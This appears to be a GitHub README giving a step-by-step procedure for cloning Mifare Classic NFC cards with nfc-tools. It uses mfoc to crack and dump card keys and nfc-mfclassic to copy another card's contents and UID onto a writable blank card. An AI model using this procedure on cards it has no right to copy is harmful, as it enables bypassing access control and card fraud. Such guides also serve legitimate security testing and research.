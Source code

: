 # NFC Clone

This is a "how to" NFC tags cloning using nfc-tools.
Docker image: https://github.com/AndreMiras/dockerfiles/tree/master/nfc-tools

## Dump the blank Chinese card

### Read the fresh blank chinese card

    # nfc-list
    nfc-list uses libnfc 1.5.1 (r1175)
    Connected to NFC device: SCM Micro / SCL3711-NFC&RW - PN533 v2.7 (0x07)
    1 ISO14443A passive target(s) found:
     ATQA (SENS_RES): 00  04  
       UID (NFCID1): 00  00  00  00  
       SAK (SEL_RES): 08  

### Dump the blank chinese card card to get the keys

    # mfoc -P 500 -O blank-chinese.dmp

Now remove the chinese card and put the card you want to copy and dump it

## Dump the Mifare card your want to copy

### Let's read the card to clone first
    
    # nfc-list
    nfc-list uses libnfc 1.5.1 (r1175)
    Connected to NFC device: SCM Micro / SCL3711-NFC&RW - PN533 v2.7 (0x07)
    1 ISO14443A passive target(s) found:
    ATQA (SENS_RES): 00  04  
        UID (NFCID1): 9b  97  4f  19  
        SAK (SEL_RES): 08  

### Time to dump the target card

    # mfoc -P 500 -O cardtocopy.dmp

Put the chinese card back and clone the card

## Write the Chinese card with the content of the other card including UUID


    # nfc-mfclassic w b cardtocopy.dmp blank-chinese.dmp

or

    # nfc-mfclassic w a cardtocopy.dmp blank-chinese.dmp


## Check that the card is the same:
    # nfc-list
    nfc-list uses libnfc 1.5.1 (r1175)
    Connected to NFC device: SCM Micro / SCL3711-NFC&RW - PN533 v2.7 (0x07)
    1 ISO14443A passive target(s) found:
      ATQA (SENS_RES): 00  04  
       UID (NFCID1): 9b  97  4f  19  
       SAK (SEL_RES): 08  

## Go back to blank card

    # nfc-mfclassic w b blank-chinese.dmp cardtocopy.dmp

or

    # nfc-mfclassic w a blank-chinese.dmp cardtocopy.dmp
